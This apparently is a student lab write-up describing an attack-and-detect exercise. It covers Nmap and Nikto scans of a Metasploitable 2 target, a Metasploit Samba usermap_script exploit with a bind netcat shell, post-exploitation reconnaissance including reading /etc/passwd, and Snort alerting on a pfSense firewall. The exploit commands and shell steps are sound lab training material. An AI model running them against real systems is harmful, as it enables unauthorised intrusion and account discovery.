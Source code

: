 # 🛠️ Tool & System Analysis

This section documents the cybersecurity tools used in the lab and the systems configured to support penetration testing and threat detection.

## Kali Linux Tools Used

Below are the tools from Kali Linux that I used in this lab along with simple explanations of what they do:

### 🔍 Nmap
**Command Used:** `nmap -sS 192.168.12.14`
Nmap is a network scanning tool that helped me discover open ports and services on the Metasploitable 2 target. The `-sS` flag tells Nmap to perform a stealthy SYN scan. I used it first to understand what was running on the target machine.

### 🧰 Metasploit Framework (Kali)
**Command Used:**
```
use exploit/multi/samba/usermap_script
set payload cmd/unix/bind_netcat
set RHOSTS 192.168.12.14
set RPORT 139
run
```
Metasploit is a powerful framework for developing and executing exploits. I used it to exploit a vulnerability in Samba (CVE-2007-2447) on the Metasploitable 2 target. The exploit created a bind shell, allowing me to connect and get command-line access. The session was established when Metasploit confirmed a successful shell connection.

### 🕵️ Nikto
**Command Used:** `nikto -h 192.168.12.14`
Nikto is a web vulnerability scanner. I ran this command to scan for known vulnerabilities on the web server running on the Metasploitable 2 machine. It checked for outdated software, misconfigurations, and dangerous scripts.

### 📡 Netcat
Netcat was used as part of the bind shell payload in Metasploit. It creates connections between machines using TCP or UDP, making it great for reverse or bind shells. In this lab, it allowed my attacker machine to interact with the target once the exploit was successful.

### 🧠 whoami / id / uname -a / ifconfig / cat / ls / ps / netstat
Once inside the target, I used basic Linux commands to learn more about the system:
- `whoami`: Showed that I had root access.
- `id`: Gave detailed user/group info.
- `uname -a`: Displayed system and kernel information.
- `ifconfig`: Displayed network interface settings.
- `cat /etc/passwd`: Showed user accounts.
- `ls /home`: Showed available home directories.
- `ps aux`: Listed all running processes.
- `netstat -antp`: Showed network connections and listening services.

These commands helped confirm I was on the right machine and gave me information that would be useful if I continued with post-exploitation tasks.

---

## 🧱 Snort IDS/IPS and pfSense

Snort was installed on the pfSense firewall and used to monitor traffic on the `server_net` (192.168.12.x). It acted as an Intrusion Detection System (IDS) by analyzing packets and generating alerts when it recognized potentially malicious activity, like the Samba exploit I ran. Snort rules triggered alerts that were viewable in the pfSense web interface under "Snort Alerts."

pfSense is an open-source firewall used to separate different segments of the network. I set up 3 LAN interfaces and 1 WAN interface:
- WAN: External network for updates.
- LAN1: attacker_net for the Kali machine.
- LAN2: server_net for the Metasploitable 2 machine.
- LAN3: management_net (not directly used in this lab).

Snort was specifically configured to monitor traffic from LAN2, where the vulnerable server lived. This allowed me to simulate a real detection setup where attacks would trigger alerts without disrupting legitimate traffic.
